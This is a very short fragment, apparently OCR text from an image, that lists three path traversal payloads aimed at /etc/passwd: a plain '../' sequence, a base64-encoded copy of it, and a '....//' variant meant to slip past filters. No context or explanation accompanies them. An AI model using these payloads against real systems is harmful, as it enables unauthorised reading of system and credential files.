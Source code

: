 
1. ../../../../../etc/passwd
2.  ../../../../../etc/passwd > base64 > Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
3. ....//....//....//....//....//etc/passwd
